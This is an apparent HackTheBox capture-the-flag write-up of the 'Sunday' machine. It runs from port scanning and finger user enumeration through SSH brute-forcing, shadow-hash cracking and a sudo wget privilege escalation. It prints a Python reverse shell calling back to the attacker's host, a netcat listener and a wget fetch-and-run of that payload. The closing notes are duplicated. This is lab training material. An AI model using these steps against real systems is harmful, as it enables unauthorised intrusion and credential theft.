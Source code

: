 ```yaml
---
title: "HackTheBox Write-Up:  Sunday"
date: 2022-09-27T05:15:03Z
draft: true

---
```



> # HackTheBox Write-Up:  Sunday
>
> ![Figure 1 PNG](https://miro.medium.com/max/1400/1*itSt35O3bwfON5arMvzFmA.png)
>
> Sunday is no day off, it's a great machine to practice common Linux privilege escalation methods through proper enumeration & vulnerability chaining.
>
> ```bash
> nmap -Pn -sS -p- 10.10.10.76
> > [OMITTED FOR BREVITY] 
> > ------------------------
> > PORT      STATE SERVICE
> > ------------------------
> > 79/tcp    open  finger  
> > 111/tcp   open  rpcbind  
> > 22022/tcp open  unknown  
> > 34550/tcp open  unknown  
> > 55407/tcp open  unknown
> > Nmap done: 1 IP address (1 host up) scanned in 2262.52 seconds
> ```
>
> There are five ports open, only one I am familiar with.
>
> ```bash
> nmap -A -p79,111,22022,34550,55407 10.10.10.76
> > Host is up (0.025s latency).
> > PORT      STATE SERVICE VERSION  
> > 79/tcp    open  finger  Sun Solaris fingerd 
> > |\_finger: No one logged on\\x0D  
> > 111/tcp   open  rpcbind 2-4 (RPC #100000)  
> > 22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)**  
> > | ssh-hostkey:   
> > |   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
> > |\_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
> > 34550/tcp open  unknown
> > 55407/tcp open  unknown**  
> > [OMITTED FOR BREVITY] 
> > Nmap done: 1 IP address (1 host up) scanned in 62.51 seconds
> ```
>
> A few Google searches finds me a vulnerability involving the Solaris implementation of `fingerd` allowing username enumeration.
>
> ![Figure 2 PNG](https://miro.medium.com/max/1400/1*sqMZaDqu2y-lmsvQjH4dvg.png)[https://www.rapid7.com/db/vulnerabilities/finger-solaris-user-enumeration]
>
> Some more searching leads me to a Perl script we can use to enumerate usernames. We'll download it using wget.
>
> ```bash
> wget https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl
> ```
>
> ![](https://miro.medium.com/max/1400/1*hEoObsS7-7XbUjCqzxIJGw.png)
>
> ```bash
> # Usage: finger-user-enum.pl [options]
> #        ( -u username | -U file-of-usernames )
> #        ( -t host | -T file-of-targets )
> # Example:
> #        finger-user-enum.pl -U users.txt -t 10.0.0.1  
> finger-user-enum.pl -u root -t 10.0.0.1  
> finger-user-enum.pl -U users.txt -T ips.txt
> ```
>
> A quick `locate username` on my Kali machine pulls all the files containing the word username.
>
> ```bash
> locate username
> ```
>
> `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt` sounds good to me with an advertised 10 million usernames!
>
> ![](https://miro.medium.com/max/1400/1*YI_7axYe7GBrCuwpoNXmNA.png)
> ![](https://miro.medium.com/max/1400/1*6Bd5LhU9s2Vp0iRo22hGjA.png)
> Quick preview
>
> Using this file, our syntax in our working directory will be:
>
> ```bash
> perl finger-user-enum.pl -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.76 > userenum.txt
> ```
>
> The scripts output will append the results to a file named userenum.txt. (You do not have to do this, I just donâ€™t like to lose my results.)
>
> ![](https://miro.medium.com/max/1400/1*RF8e7LhDPeXw4YiD9kX80A.png)
>
> The output is a bit messy, but we have a few usernames to attempt a brute-force attack against port \[**22022/tcp open ssh SunSSH 1.3 (protocol 2.0)\]**
>
> The following usernames are the most interesting:
>
> ```bash
> sammy@10.10.10.76: sammy console <Jul 31 17:59>  
> sunny@10.10.10.76: sunny pts/3 <Apr 24, 2018>
> ```
>
> Use the following syntax to brute-force:
>
> ```bash
> hydra -V -f -t 4 -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 ssh -s 22022
> ```
>
> ![](https://miro.medium.com/max/1400/1*IVLkF60wYFaS2MiBDQwKSg.png)
>
> We obtain the credentials for Sunny!
> `sunny:sunday`
>
> ```bash
> ssh -p 22022 sunny@10.10.10.76
> ```
>
> ![](https://miro.medium.com/max/1400/1*YYgqDCCDPJgJbTlYHgNRZA.png)
>
> Habitually on Linux systems itâ€™s always a good idea to check if a low-privileged user has any sudo permissions.
>
> ```bash
> sudo -l
> ```
>
> We find that we can run the command /root/troll as root without a password.
>
> ![](https://miro.medium.com/max/1400/1*-2T8yLglR_FzVT7p2iBe_g.png)
>
> While traversing and enumerating the files on the machine, I found a copy of the shadow file containing hashed user passwords.
>
> ![](https://miro.medium.com/max/1400/1*f-FCv0hB0-jGhAX8lAZqaw.png)
>
> ```bash
> cat /backup/shadow.backup
> ```
>
> > If we are able to crack Sammy's password hash, we'll be able to grab the `user.txt` flag.
>
> ```bash
> echo "sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::" > hash.txt
> ```
>
> Copy the hash to a file, I named mine `hash.txt`. We'll use `john` to crack the hash.
>
> ```bash
> john -w="/usr/share/wordlists/rockyou hash.txt
> ```
>
> ![](https://miro.medium.com/max/1400/1*iDda9isUCBTW0boxxePOQA.png)
>
> Success.
>
> `Sammy:cooldude!`
>
> Let's grab the `user.txt` found on the desktop, and enumerate the system using Sammy's credentials.
>
> ```bash
> ssh -p 22022 sammy@10.10.10.76
> ```
>
> ![](https://miro.medium.com/max/1400/1*7ZK3ZmjNVjPW4MUt09NH1Q.png)
>
> Habitually, we type sudo -l.
>
> ```bash
> sudo -l
> ```
>
> ![](https://miro.medium.com/max/1400/1*QcCX9NKNdrBdautztxNtHQ.png)
>
> Looks like Sammy can run wget as root without a password. With this, we can overwrite `/root/troll` with a reverse-shell and then run it as root with Sunny's user account.
>
> Copy and paste this Python reverse-shell to a file named `reverse.py` on the target machine.
>
> ```python
> #!/usr/bin/python
> import socket  
> import subprocess  
> import os
> 
> s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
> s.connect(("10.10.14.15",443))  
> os.dup2(s.fileno(),0)  
> os.dup2(s.fileno(),1)  
> os.dup2(s.fileno(),2)  
> p = subprocess.call(["/bin/sh","-i"])
> ```
>
> Host this file with an HTTP server using Python, but before you do â€” ensure to edit the parameters to your local IP/port to receive the shell (I like to use port 443.)
>
> > NOTE:  Later on I ran into trouble because my IP was wrong (see: 10.10.14.5 vs 10.10.14.15)
>
> ![](https://miro.medium.com/max/1400/1*Pn2GutPyPn-ZagP9adm00w.png)
>
> ```bash
> sudo python3 -m http.server 80
> ```
>
> Setup a listener on the designated port.
>
> ```bash
> nc -nlvp 443
> ```
>
> ![](https://miro.medium.com/max/1400/1*SAfBMYPVhdKGWeZBWrItjQ.png)
>
> On the victim machine: we're going to download the reverse shell to replace /root/troll (Sammy), and then run the reverse shell as root (Sunny). Hopefully sending a privileged reverse shell back to us.
>
> ```bash
> sudo wget -O /root/troll http://10.10.14.15/reverse.py
> ```
>
> ![](https://miro.medium.com/max/1400/1*FoXOfkQUZdnfSzAeJXe7Vg.png)
>
> ```bash
> sudo /root/troll
> ```
>
> ![](https://miro.medium.com/max/1400/1*4-vlM2cx8LbdzGwP5KMkOA.png)
>
> > Note: The file resets itself every 5 seconds, so you're going to have to work fast. ( I also had a typo in my IP address, so this could be why I had so many failures)
>
> ![](https://miro.medium.com/max/1400/1*c0YHCrXNSdhWj_SWiNSA-w.png)
>
> You will notice the port I am listening on had changed from 443 to 1234. I thought there was a firewall blocking port 443 but as I said above, I discovered a typo in my receiving IP address within the reverse-shell.
>
> ![](https://miro.medium.com/max/1400/1*LF9GEfw_dyRmE58N6B7tzA.png)
>
> > Quick ending note: If port 443 is not working properly (All ports under 1000? can only be modified by `root`) either choose a higher port or re-run the command as root [ i.e. `sudo`]Note: The file resets itself every 5 seconds, so you’re going to have to work fast. ( I also had a typo in my IP address, so this could be why I had so many failures)
> >
> > ![](https://miro.medium.com/max/1400/1*c0YHCrXNSdhWj_SWiNSA-w.png)
> >
> > You will notice the port I am listening on had changed from 443 to 1234. I thought there was a firewall blocking port 443… but as I said above, I discovered a typo in my receiving IP address within the reverse-shell.
> >
> > ![](https://miro.medium.com/max/1400/1*LF9GEfw_dyRmE58N6B7tzA.png)
